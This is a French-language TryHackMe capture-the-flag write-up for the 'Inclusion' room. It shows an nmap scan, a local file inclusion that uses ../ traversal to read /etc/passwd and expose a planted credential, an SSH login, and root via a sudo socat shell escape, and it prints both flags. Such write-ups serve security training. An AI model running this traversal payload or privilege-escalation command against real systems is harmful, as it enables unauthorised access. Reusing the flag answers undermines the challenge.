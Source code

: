 # Inclusion #
## Task 1 Deploy ##
```bash
im@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.92.193 inclusion.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A inclusion.thm 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-21 13:47 CEST
Nmap scan report for inclusion.thm (10.10.92.193)
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/21%OT=22%CT=1%CU=40178%PV=Y%DS=2%DC=T%G=Y%TM=60F8096
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   35.48 ms 10.9.0.1
2   35.72 ms inclusion.thm (10.10.92.193)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.15 seconds
```

En faisant un scan avec nmap on remarque 2 services disponibles :  
-SSH sur le port 22.  
-http sur le port 80.  

![page1](./task1-01.png)
On voit sur le blog un article sur le LFI-attack, cliquons sur view details.  

![page2](./task1-02.png)
On voit des examples de LFI.  
Le plus important c'est lien, grace à l'argument ?name= on il sera possible de passer une valeur pour atteindre un fichier. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://inclusion.thm/article?name=../../../../../../etc/passwd
<!DOCTYPE html>

<html>

    <body>

        

            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false


        

    </body>

</html>

tim@kali:~/Bureau/tryhackme/write-up$ 

```
On récupère les informations des utilisateurs dans /etc/passwd.   
On remarque en commentaire des identifiants :   
-falconfeast  
-rootpassword  

## Task 2 Root It ##
**user flag**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh falconfeast@inclusion.thm
The authenticity of host 'inclusion.thm (10.10.92.193)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'inclusion.thm,10.10.92.193' (ECDSA) to the list of known hosts.
falconfeast@inclusion.thm's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul 21 17:42:12 IST 2021

  System load:  0.0               Processes:           85
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 64%               IP address for eth0: 10.10.92.193
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ cat user.txt 
60989655118397345799

```

La réponse est : 60989655118397345799  

**root flag**

```flag
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

On peut exécuter socat avec sudo sans mot de passe.  

```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cat /root/root.txt
42964104845495153909
```

Pour plus d'information avec les commandes sudo sur certains fichiers.  [gtfobins](https://gtfobins.github.io/)  

Avec socat on peut avoir un shell root.   
On récupère le flag.   

Réponse : 42964104845495153909  